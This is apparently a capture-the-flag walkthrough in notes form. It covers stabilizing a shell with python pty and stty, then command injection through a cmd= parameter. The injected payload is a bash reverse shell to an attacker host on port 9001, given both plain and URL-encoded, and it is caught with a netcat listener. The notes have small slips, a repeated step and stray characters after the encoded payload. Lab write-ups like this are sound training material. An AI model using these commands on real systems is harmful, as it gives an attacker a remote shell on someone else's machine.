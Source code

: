 Now that we have a shell on the box, we want to stabilize our shell. For the most part, stabilizing shells is straightforward by using other utilities like python to help; however, some steps can take longer or change depending on the shell you use. The below instructions will be for bash and ZSH; any other shells or operating systems, you will need to do your research on stabilizing shells within their environment.  

Instructions found throughout this room are inspired by this fantastic blog post, [https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). All credit for the techniques shown goes to ropnop.  

There are several ways to stabilize a shell; we will be focusing on using python to create a pseudo-terminal and modifying stty options. The steps are the same for all target machines, but they may differ depending on the shell or operating system used on your attacking machine.  

To begin, we will create a pseudo-terminal using python. The command can be found below.  

Syntax: `python -c 'import pty; pty.spawn("/bin/bash")'`

Once we have a pseudo shell, we can pause the terminal and modify stty options to optimize the terminal. Follow the steps below exactly for bash shells.  

1. `stty raw -echo`

2. `fg`

**Note****:** If you're using ZSH, you **must** combine `stty raw -echo;fg`  onto one line, or else your shell will break  

At this point, you will get your pseudo-terminal back, but you may notice that whatever you type does not show up. For the next step, you will need to type blindly.  

3. `reset`

4. `export SHELL=BASH`

For the next two steps, you will need to use the information you got from step 1. 

5. `export SHELL=BASH`

6. `export TERM=<TERMINAL>`

7. `stty rows <num> columns <cols>`


---

# Your job

## Reverse Shell

- Payload is: `/bin/bash -c "bash -i >& /dev/tcp/<Attack_IP>/9001 0>&1"`.
- Encode the payload as URL.
	`%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%35%30%2e%37%34%2e%31%36%35%2f%39%30%30%31%20%30%3e%26%31%22yloa`
- Add the payload to the cmd= parameter on the browser (Better on Burp Suite Repeater).

	![[Task 14 - Meterpreter session 1 closed. Reason RUH ROH-20240907132955710.webp]]

## Listener

- On your attacking machine open a netcat listener.

	`nc -lnvp 9001`

- On Repeater click "Send".

	![[Task 14 - Meterpreter session 1 closed. Reason RUH ROH-20240907133230772.webp]]

	Your got a Revers Shell.




**Next step:** [[Task - 15 Docker? I hardly even know her!]]

